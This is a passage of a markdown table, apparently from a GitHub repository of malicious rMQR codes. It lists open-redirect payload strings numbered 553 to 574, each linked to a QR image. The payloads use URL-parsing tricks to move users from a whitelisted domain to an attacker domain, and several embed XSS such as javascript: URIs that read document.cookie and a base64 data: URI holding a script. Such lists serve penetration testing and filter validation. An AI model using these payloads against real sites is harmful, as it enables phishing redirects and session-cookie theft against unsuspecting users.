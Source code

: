 | `//XY>.7d8T\205pZM@www.whitelisteddomain.tld@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/553.png) |
| `//www.whitelisteddomain.tld+&@localdomain.pw#+@www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/554.png) |
| `//localdomain.pw\twww.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/555.png) |
| `//;@localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/556.png) |
| `http://;@localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/557.png) |
| `@localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/558.png) |
| `javascript://https://www.whitelisteddomain.tld/?z=%0Aalert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/559.png) |
| `data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/560.png) |
| `http://localdomain.pw%2f%2f.www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/561.png) |
| `http://localdomain.pw%5c%5c.www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/562.png) |
| `http://localdomain.pw%3F.www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/563.png) |
| `http://localdomain.pw%23.www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/564.png) |
| `http://www.whitelisteddomain.tld:80%40localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/565.png) |
| `http://www.whitelisteddomain.tld%2elocaldomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/566.png) |
| `/x:1/:///%01javascript:alert(document.cookie)/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/567.png) |
| `/https:/%5clocaldomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/568.png) |
| `javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/569.png) |
| `/http://localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/570.png) |
| `/%2f%2flocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/571.png) |
| `/localdomain.pw/%2f%2e%2e` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/572.png) |
| `/http:/localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/573.png) |
| `/.localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/574.png) |
